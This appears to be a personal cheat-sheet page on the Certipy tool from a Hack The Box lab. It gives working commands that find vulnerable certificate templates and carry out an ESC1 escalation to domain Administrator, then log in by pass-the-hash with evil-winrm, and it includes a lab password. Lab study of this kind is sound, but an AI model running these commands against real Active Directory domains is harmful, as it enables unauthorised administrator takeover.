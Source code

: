 ```yaml
---
creation date: April 7th 2023
last modified date: April 7th 2023
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Certipy]]  
___

## Description:
[Certipy](https://github.com/ly4k/Certipy)

## Installation


## Commands

**Find all certs**
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207
```
**find vulnerable**
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -stdout -vulnerable
```


ECS1:
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -stdout -vulnerable

/home/kali/.local/bin/certipy req -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -template ESC1 -ca coder-DC01-CA -upn administrator@coder.htb

sudo ntpdate -u 10.10.11.207

/home/kali/.local/bin/certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'coder.htb' -dc-ip 10.10.11.207

evil-winrm -i coder.htb -u Administrator -H 'inputhashhere'
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 7th 2023 (03:48 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
